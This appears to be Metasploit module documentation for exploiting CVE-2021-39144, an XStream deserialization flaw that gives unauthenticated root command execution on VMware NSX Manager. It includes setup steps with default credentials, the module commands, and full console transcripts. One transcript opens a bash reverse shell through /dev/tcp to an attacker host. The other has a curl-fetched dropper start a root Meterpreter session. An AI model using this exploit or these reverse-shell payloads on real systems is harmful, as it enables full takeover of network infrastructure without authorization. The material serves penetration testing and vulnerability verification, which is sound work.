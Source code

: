 ## Vulnerable Application

VMware Cloud Foundation contains a remote code execution vulnerability via XStream open source library [CVE-2022-39144](https://nvd.nist.gov/vuln/detail/CVE-2021-39144).
VMware has evaluated the severity of this issue to be in the [Critical severity range](https://www.vmware.com/support/policies/security_response.html) with a maximum CVSSv3 base score of [9.8](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H).
Due to an unauthenticated endpoint that leverages XStream for input serialization in VMware Cloud Foundation (NSX-V),
a malicious actor can get remote code execution in the context of `root` on the appliance.

VMware Cloud Foundation `3.x` and more specific NSX Manager Data Center for vSphere up to and including version `6.4.13`
are vulnerable to Remote Command Injection.

This module has been tested against VMware NSX Manager (NSX-V) with the specifications listed below:

* VMware NSX Manager
* Version `6.4.13`
* Version `6.4.4`

## Verification Steps

Follow these instructions to install a vulnerable VMware NSX Manager on VirtualBox.
* Go to [Download VMware NSX for vSphere 6.4.13](https://customerconnect.vmware.com/en/downloads/details?downloadGroup=NSXV_6413&productId=417&rPId=96480)
* Note: You need to be a customer with valid VMware subscriptions
* Download the ova file `VMware-NSX-Manager-6.4.13-19307994.ova`
* Open VirtualBox and import the ova file
* After sucessful import, start the VM and you have a VMware NSX Manager running which is accessible using url `https://<nsx-manager-ip>`
* Credentials to login: user: `admin`, password: `default`
* Use the module and options below to test the vulnerability...

1. `use use exploit/linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-Unix command or 1-Linux Dropper>`
1. `exploit`
1. You should get a `bash` shell or `meterpreter` session depending on the target and payload settings.

## Options
No specific options.

## Scenarios

### VMware NSX Manager bash reverse shell

```
msf6 > use exploit/linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144) > options

Module options (exploit/linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    443              yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machi
                                       ne or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix (In-Memory)


msf6 exploit(linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144) > set rhosts 192.168.100.5
rhosts => 192.168.100.5
msf6 exploit(linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf6 exploit(linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.5:443 can be exploited !
[+] The target appears to be vulnerable. Target is running VMware NSX Manager (NSX-V)
[*] Executing Unix (In-Memory) with bash -c '0<&44-;exec 44<>/dev/tcp/192.168.100.7/4444;sh <&44 >&44 2>&44'
[*] Command shell session 14 opened (192.168.100.7:4444 -> 192.168.100.5:42512) at 2022-11-05 10:33:37 +0000

pwd
/usr/lib/tanuki/bin
whoami
root
exit
[*] 192.168.100.5 - Command shell session 14 closed.

```

### VMware NSX Manager meterpreter session

```
msf6 > use exploit/linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144) > options

Module options (exploit/linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    443              yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machi
                                       ne or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf6 exploit(linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144) > set rhosts 192.168.100.5
rhosts => 192.168.100.5
msf6 exploit(linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf6 exploit(linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.5:443 can be exploited !
[+] The target appears to be vulnerable. Target is running VMware NSX Manager (NSX-V)
[*] Executing Linux Dropper
[*] Using URL: http://192.168.100.7:8080/G5xrKmpiufcQdCt
[*] Client 192.168.100.5 (curl/7.81.0) requested /G5xrKmpiufcQdCt
[*] Sending payload to 192.168.100.5 (curl/7.81.0)
[*] Command Stager progress - 100.00% done (121/121 bytes)
[*] Sending stage (3045348 bytes) to 192.168.100.5
[*] Meterpreter session 13 opened (192.168.100.7:4444 -> 192.168.100.5:42384) at 2022-11-05 10:29:30 +0000
[*] Server stopped.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.100.5
OS           : NSX Manager 6.4.13 (Linux 4.9.297)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

## Limitations
The vulnerability check is limited in detecting that VMWare NSX Manager (NSX-V) is running without obtaining the version information.
However all VMware NSX Manager versions up to `6.4.13` are vulnerable, except for `6.4.14`, so most detected targets are likely
to be vulnerable.
